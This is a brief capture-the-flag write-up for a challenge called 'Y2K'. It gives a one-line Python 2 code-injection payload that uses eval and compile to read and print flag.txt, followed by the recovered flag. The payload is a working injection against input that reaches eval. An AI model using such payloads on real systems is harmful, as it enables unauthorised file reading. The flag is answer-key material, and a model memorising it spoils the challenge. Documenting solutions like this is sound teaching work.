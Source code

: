 # Y2K

```py
int(eval(compile('print open("flag.txt", "r").readlines()', '<string>', 'exec')) or 0)
```

go brrrrr


#### Flag:flag{we_are_saved_from_py2_k}

